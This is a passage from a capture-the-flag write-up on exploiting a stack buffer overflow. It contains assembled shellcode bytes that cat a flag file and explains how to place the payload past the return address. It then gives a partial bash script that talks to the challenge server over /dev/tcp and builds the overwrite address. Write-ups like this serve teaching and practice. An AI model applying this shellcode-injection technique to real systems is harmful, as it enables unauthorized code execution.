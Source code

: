 The above code was compiled and converted with:
```
> nasm -felf cat_code.asm -o cat_code.o && ld -m elf_i386 -o cat_code cat_code.o
> objdump -d ./cat_code|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x6c\x61\x67\x32\x68\x2e\x2f\x2f\x66\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
I then checked the number of bytes with:
```
> echo "\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x6c\x61\x67\x32\x68\x2e\x2f\x2f\x66\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80" | tr -cd x | wc -c
56
```
So we have 56 characters, which fits nicely in our buffer. We just need to pad by 7 characters to make our necessary 63. I put this in the previous script and ran it, but there is a problem with this code. When performing the pushes in the code, the buffer gets overwritten as the stack fills into it. This means the code is corrupted and doesn't work. The `ls` from earlier works because the code is small enough.

Maybe we can put the code further down the stack and call it there. This will mean using 63 `A` characters to fill the buffer, followed by the address of where we are going to put our code, which will be immediately after the return address. Our new return address needs to be the buffer start + 67 (0x43) bytes. The 67 is the length of the buffer plus the length of the return address. To do this, our final script becomes:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/32101

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d '=' -f 2 | cut -d 'x' -f 2)
echo "Extracted: $buf_addr"

# Add on our 67 (0x43) bytes as the code will
# be after the return address
buf_addr=$(printf '%x' $((0x$buf_addr + 0x43)))
echo "Final address: $buf_addr"

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# Fill the buffer with As, followed by the address of
# the buffer location + 67 as the return address, 
```